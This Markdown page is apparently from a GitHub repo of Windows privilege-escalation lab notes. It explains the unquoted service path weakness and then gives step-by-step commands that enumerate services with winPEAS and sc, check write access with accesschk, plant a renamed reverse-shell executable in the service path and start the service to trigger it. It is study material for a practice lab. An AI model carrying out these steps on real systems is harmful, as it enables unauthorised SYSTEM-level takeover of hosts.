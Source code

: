 ### Unquoted Service Path
Executables in Windows can be run without using their extensions (e.g. "whoami.exe" can be run by just typing "whoami").
Some executables take arguments, seperated by spaces (e.g. someprog.exe arg1 arg2 arg3...).
This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path:
```
C:\Program Files\Some Dir\SomeProgram.exe
```
To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: "Files\Some" and "Dir\SomeProgram.exe".
Windows resolves this ambiguity by checking each of the possibilities in turn. 
If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.

1. Run winPEAS to check for service misconfigurations:
```cmd
> .\winPEASany.exe quiet servicesinfo
```
2. Note that the "unquotedsvc" service has an unquoted path that also contains spaces: C:\Program Files\Unquoted Path Service\Command Files\unquotedpathservice.exe
3. Confirm using sc:
```cmd
> sc qc unquotedsvc
```
4. Use accesschk.exe to check for write permissions:
```cmd
> .\accesschk.exe /accepteula -uwdq C:\
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
5. Copy the reverse shell executable and rename it appropriately:
```cmd
> copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe
```
6. Start a listener on Kali, and then start the service to trigger the exploit:
```cmd
> net start unquotedsvc
```

### Weak Registry Permissions
